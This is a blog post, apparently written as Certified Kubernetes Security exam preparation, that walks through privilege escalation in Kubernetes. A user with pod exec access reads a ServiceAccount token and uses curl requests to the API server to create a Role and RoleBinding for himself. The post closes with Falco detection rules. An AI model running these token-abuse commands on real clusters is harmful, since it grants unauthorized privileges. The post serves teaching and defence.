 ```yaml
---
title: "CKS preparation - abusing ServiceAccount to grant privileges"
date: 2021-02-03T06:00:00-04:00
categories:
  - certifications
tags:
  - kubernetes
  - certifications
  - cks
comments: true
---
```


In this article I will show how Kubernetes ServiceAccount can used to gain
privileges. Of course, all this information should be only used for preparation
to CKS exam.

Let's say that we have a developer John, who has limited privileged in
namespace `frontend`:
```
$ kubectl -n frontend auth can-i list pods --as john
no
$ kubectl -n frontend auth can-i create pods --as john
no
$ kubectl -n frontend auth can-i create role --as john
no
```

But for debugging purposes, he was granted with "pod/exec" role. In `frontend`
namespace there is a `service` Pod, running under `service-sa` ServiceAccount,
which has permissions to create, modify or delete roles:
```YAML
apiVersion: v1
kind: ServiceAccount
metadata:
  name: service-sa
  namespace: frontend
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: service-role
  namespace: frontend
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
  resources: ["*"]
  verbs: ["create","update","delete"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: service-binding
  namespace: frontend
subjects:
- kind: ServiceAccount
  name: service-sa
roleRef:
  kind: Role
  name: service-role
  apiGroup: rbac.authorization.k8s.io
```

Now, let's imagine that John wants to get more permissions. To do that, he has
logged into this pod. To interact with kube-api John has to install curl:
```bash
apk add curl
```

Next step will be to find serviceAccount's token and kube-api endpoint:
```bash
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export ENDPOINT=$KUBERNETES_SERVICE_HOST
export NAMESPACE=frontend
```

Knowing that, he ca create a new role via [API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-v1/#create-create-a-role):
```YAML
# Create ROLE in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/roles \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "Role",
    "metadata": {
        "name": "infra-role",
        "namespace": "frontend"
    },
    "rules": [
        {
            "apiGroups": [
                "rbac.authorization.k8s.io"
            ],
            "resources": [
                "*"
            ],
            "verbs": [
                "create",
                "update",
                "delete"
            ]
        }
    ]
}'
```

and assign that role to his entity([API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-binding-v1/#create-create-a-rolebinding)):
```YAML
# Create ROLEBINDING in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/rolebindings \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "infra-binding",
        "namespace": "frontend"
    },
    "roleRef": {
        "apiGroup": "rbac.authorization.k8s.io",
        "kind": "Role",
        "name": "infra-role"
    },
    "subjects": [
        {
            "apiGroup": "rbac.authorization.k8s.io",
            "kind": "User",
            "name": "john"
        }
    ]
}'
```

Since service account has permissions to create new roles and RoleBindings,
new permissions were granted to John:
```bash
$ kubectl -n frontend auth can-i create role --as john
yes
```

As a Cluster Administrator, it's not easy to find such activities. [Falco](https://falco.org/)
is a great tool that can monitor your cluster and report on all user actions.

It comes with a [default set of rules](https://github.com/falcosecurity/charts/blob/master/falco/rules/k8s_audit_rules.yaml),
which would generate alerts on John's actions:
```YAML
- rule: Attach/Exec Pod
  desc: >
    Detect any attempt to attach/exec to a pod
  condition: kevt_started and pod_subresource and kcreate and ka.target.subresource in (exec,attach) and not user_known_exec_pod_activities
  output: Attach/Exec to pod (user=%ka.user.name pod=%ka.target.name ns=%ka.target.namespace action=%ka.target.subresource command=%ka.uri.param[command])
  priority: NOTICE
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrole Created
  desc: Detect any attempt to create a cluster role/role
  condition: (kactivity and kcreate and (clusterrole or role) and response_successful)
  output: K8s Cluster Role Created (user=%ka.user.name role=%ka.target.name rules=%ka.req.role.rules resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrolebinding Created
  desc: Detect any attempt to create a clusterrolebinding
  condition: (kactivity and kcreate and clusterrolebinding and response_successful)
  output: K8s Cluster Role Binding Created (user=%ka.user.name binding=%ka.target.name subjects=%ka.req.binding.subjects role=%ka.req.binding.role resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
```
